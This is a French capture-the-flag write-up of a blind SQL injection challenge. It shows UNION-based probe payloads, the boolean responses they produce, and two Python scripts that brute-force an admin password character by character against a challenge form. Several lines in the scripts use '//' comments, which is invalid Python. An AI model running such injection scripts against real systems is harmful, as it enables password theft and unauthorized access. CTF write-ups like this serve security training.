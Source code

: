 # Vite Mon Injection 3

![img](./0.png)
![img](./1.png)

## Challenge :

Récupérer le mot de passe de l'admin

## Stratégie :

On peut déjà regarder comment ça fonctionne :

 - Avec `1` => `Pas de résultat`
 - Avec `1 or 1=1` => `Vous devez être authentifié pour avoir accès aux résultats`

On va voir une requête simple :

 - `1; SELECT username, password FROM infos` => `La commande n'a pas marché`
 - `1; SELECT password FROM infos where username='admin'` => `La commande n'a pas marché`
 
On peut se dire que derrière la bonne donnée n'entre pas au bon endroit.
Essayons un UNION

 - `1 UNION SELECT password FROM infos WHERE username = 'admin';` => `Vous devez être authentifié pour avoir accès aux résultats`
 
Hmmm un peu plus complexe..

Essayons ceci :

 - `1 UNION SELECT 'test';` => `Vous devez être authentifié pour avoir accès aux résultats`
 - `1;` => `Pas de résultat`
 
Ahah ! On peut déterminer si notre SELECT retourne "Oui" ou "Non" !

 - `1 union select username from infos where password like 'H%';` => `Vous devez être authentifié pour avoir accès aux résultats` (Oui)
 - `1 union select username from infos where password like 'B%';` => `Pas de résultat` (Non)
 
Ainsi on sait par quoi commence le flag !
On peut automatiser ceci :

```py
import requests
url = "https://sql3.valekoz.fr/recherche_note"

r = "1 union select username from infos where password like '&&%';"
i=0
alp = "{}13457ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz26890_"
current = "HTN"
while True:
	req = r.replace("&&", current+alp[i])
	pl = {"num_etudiant": req}
	resp = requests.post(url,pl)
	if "résultats" in resp.text:
		// Good case
		current = current+alp[i]
		print(current)
		i = 0
	else:
		// Bad case
		i += 1
```

Ce qui nous donnera un flag (tout en majuscule par contre)

On peut ensuite chercher le bon flag :

```py
import random 
import requests
url = "https://sql3.valekoz.fr/recherche_note"
r = "1 union select username from infos where password = '&&';"
current = "HTN{vraiflagici}"

def randomcase(s): 
	result = '' 
	for c in s: 
		case = random.randint(0, 1) 
		if case == 0: 
			result += c.upper() 
		else: 
			result += c.lower() 
	return result 

while True:
	current = randomcase(current)
	req = r.replace("&&", current)
	pl = {"num_etudiant": req}
	resp = requests.post(url,pl)
	if "résultats" in resp.text:
		// Good case
		print(current)
```

Un peu bourrin mais ça marche.